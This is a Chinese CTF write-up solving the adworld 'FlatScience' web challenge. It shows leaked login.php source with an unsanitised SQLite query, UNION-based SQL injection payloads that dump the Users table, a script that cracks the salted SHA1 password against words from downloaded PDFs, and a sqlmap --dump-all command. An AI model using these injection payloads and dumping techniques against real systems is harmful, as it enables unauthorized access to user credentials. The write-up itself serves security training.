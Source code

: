 ### FlatScience-adworld

![image-20240918202308955](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240918202308955.png)

首先进行目录爆破

![image-20240918174542283](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240918174542283.png)

可以看到robots，login，admin的几个后台目录

并且尝试对其中一个login进行sql注入，有报错提示是sqlite3的数据库，那么注入是存在的

首先使用sqlmap梭哈，没有什么效果。事后发现debug的参数没有修改，可以通过?debug=的构造发现login的源代码

这个代码表明了sqlite3的使用，并且post的usr和pw没有过滤，如果有回显，会加在回显的cookie上

这也是为什么sqlite用不了的原因（个人猜测是这样

```php
<?php
ob_start();
?>
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">

<html>
<head>
<style>
blockquote { background: #eeeeee; }
h1 { border-bottom: solid black 2px; }
h2 { border-bottom: solid black 1px; }
.comment { color: darkgreen; }
</style>

<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1">
<title>Login</title>
</head>
<body>


<div align=right class=lastmod>
Last Modified: Fri Mar  31:33:7 UTC 1337
</div>

<h1>Login</h1>

Login Page, do not try to hax here plox!<br>


<form method="post">
  ID:<br>
  <input type="text" name="usr">
  <br>
  Password:<br> 
  <input type="text" name="pw">
  <br><br>
  <input type="submit" value="Submit">
</form>

<?php
if(isset($_POST['usr']) && isset($_POST['pw'])){
        $user = $_POST['usr'];
        $pass = $_POST['pw'];

        $db = new SQLite3('../fancy.db');
        
        $res = $db->query("SELECT id,name from Users where name='".$user."' and password='".sha1($pass."Salz!")."'");
    if($res){
        $row = $res->fetchArray();
    }
    else{
        echo "<br>Some Error occourred!";
    }

    if(isset($row['id'])){
            setcookie('name',' '.$row['name'], time() + 60, '/');
            header("Location: /");
            die();
    }

}

if(isset($_GET['debug']))
highlight_file('login.php');
?>
<!-- TODO: Remove ?debug-Parameter! -->




<hr noshade>
<address>Flux Horst (Flux dot Horst at rub dot flux)</address>
</body>
```



sqlite3特征：

SQLite 没有像 MySQL 那样的完整 `information_schema` 视图集，它的元数据存储主要依赖于 `sqlite_master` 表。

 SQLITE_MASTER 表看 起来如下： 

```sql
CREATE TABLE sqlite_master ( type TEXT， name TEXT, tbl_name TEXT, rootpage INTEGER, sql TEXT );
```

 对于表来说，type 字段永远是’table’,name 永远是表的名字

首先枚举表查询行数

```
'union SELECT name FROM sqlite_master WHERE type='table' -- '报错
'union SELECT 1,name FROM sqlite_master WHERE type='table' -- ' ok
```



![image-20240918180246324](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240918180246324.png)

接着使用

```
union SELECT sql,sql FROM sqlite_master WHERE tbl_name = 'Users' and type = 'table'
```

可以得到创建表的语句

```sql
CREATE TABLE Users(id int primary key,
                   name varchar(255),
                   password varchar(255),
                   hint varchar(255))
```

接下来查询表中数据行

```
'union SELECT name,name FROM Users LIMIT 10 -- '&pw=123   --admin
'union SELECT id,id FROM Users LIMIT 10 -- '&pw=123   --1
'union SELECT password,password FROM Users LIMIT 10 -- '&pw=123 --34b0bb7c304949f9ff2fc101eef0f048be10d3bd
'union SELECT hint,hint FROM Users LIMIT 10 -- '&pw=123 -- my fav word in my fav paper?!
```

这里可以根据之前的算法得到，password='".sha1($pass."Salz!")，但问题是什么是my fav word in my fav paper?!

这里不知道为什么枚举的有问题，第一个的password应该是`3fab54a50e770d830c0416df817567662a9dc85c`，然而我爆出来的password却是第三个的密码

接下来就是根据提示遍历pdf中最喜欢的word

首先使用wget遍历抓取所有pdf

```
wget ip -r -np -nd -A .pdf 
这个命令的作用是递归下载指定目录及其子目录中的所有 PDF 文件。具体来说：
-r 或 --recursive：递归下载目录及其子目录中的所有文件。
-np 或 --no-parent：不下载父目录中的文件，只下载指定目录及其子目录中的文件。
-nd 或 --no-directories：不创建目录结构，所有文件下载到当前目录。
-A .pdf：只下载以 .pdf 结尾的文件
```

接下来就是比对pdf中最爱的单词。有了ai，写程序快多了

```python
import os
import hashlib
from PyPDF2 import PdfReader

def hash_word(word):
    """Hash a word using SHA1."""
    word+="Salz!"
    return hashlib.sha1(word.encode()).hexdigest()

def process_pdf(file_path):
    """Extract words from a PDF and hash them."""
    hashed_words = {}
    with open(file_path, 'rb') as file:
        reader = PdfReader(file)
        for page in reader.pages:
            text = page.extract_text()
            words = text.split()
            for word in words:
                hashed_word = hash_word(word)
                hashed_words[word] = hashed_word
    return hashed_words

def process_directory(directory):
    """Process all PDF files in a directory."""
    all_hashed_words = {}
    for root, _, files in os.walk(directory):
        for file in files:
            if file.lower().endswith('.pdf'):
                file_path = os.path.join(root, file)
                hashed_words = process_pdf(file_path)
                all_hashed_words.update(hashed_words)
    return all_hashed_words

# 指定要遍历的目录
directory = 'd:/ctf/web/sql/wget/'

# 处理目录中的所有 PDF 文件
hashed_words = process_directory(directory)

for word, hashed in hashed_words.items():
    if hashed=="3fab54a50e770d830c0416df817567662a9dc85c":
        print(f'{word}: {hashed}')

```



wp中给出的python爬虫爬取pdf也是一个好方法

```python
import requests
from bs4 import BeautifulSoup
import re
import queue

pattern = re.compile(r'href="(.*?)"')
url = "http://159.138.137.79:53404/"
pdf_set = set()
pages = set()
links = queue.Queue()

def getLinks(url):
    page = requests.get(url).text
    soup = BeautifulSoup(page, 'html.parser')
    data = soup.find_all("a")
    for i in data:
        link = url + pattern.search(str(i)).group(1)
        if '.pdf' in link:
            if link not in pdf_set:
                pdf_set.add(link)
        elif '..' in link:
            continue
        else:
            links.put_nowait(link)

# 初始调用
getLinks(url)

while not links.empty():
    newpage = links.get_nowait()
    if newpage not in pages:
        pages.add(newpage)
        getLinks(newpage)

print(pdf_set)
print(len(pdf_set))

for i in pdf_set:
    r = requests.get(i)
    with open(i.split('/')[-1], 'wb') as f:
        f.write(r.content)

```

但是还有个pdf直接用md5解，那就是投机取巧了。



不过其中也有提到burpsuite抓包＋sqlmap的爆破，这里尝试一下，是将抓包login.php的文件然后使用-r直接构造sqlmap

```
sqlmap -r 1.txt --dump-all
```

